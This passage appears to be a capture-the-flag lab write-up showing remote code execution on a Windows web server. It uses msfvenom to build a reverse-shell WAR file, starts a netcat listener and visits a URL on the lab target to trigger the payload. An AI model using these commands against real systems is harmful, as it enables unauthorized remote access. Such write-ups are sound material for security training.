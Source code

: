 ### Remote code execution and reverse shell using war file

We generate a backdoor war file using `msfvenom`. The target OS is windows so we generate a windows reverse tcp shell.

{% code overflow="wrap" %}
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.23 LPORT=9999 -f war -o  exploit.war
```
{% endcode %}

After creating the payload we take a look at the jsp file created by `msfvenom` as this would be required to trigger the execution of the payload.

```
unzip -l exploit.war
```

<figure><img src="../.gitbook/assets/image (26).png" alt=""><figcaption><p>Contents of the payload</p></figcaption></figure>

We setup a netcat listener to catch the reverse shell on our attacker machine:

```
nc -vnlp 9999
```

Now we visit the URL [http://10.10.10.95:8080/exploit/uidimxzbaiboqgd.jsp](http://10.10.10.95:8080/exploit/uidimxzbaiboqgd.jsp) to trigger the payload

<figure><img src="../.gitbook/assets/image (17).png" alt=""><figcaption><p>Trigger the payload</p></figcaption></figure>
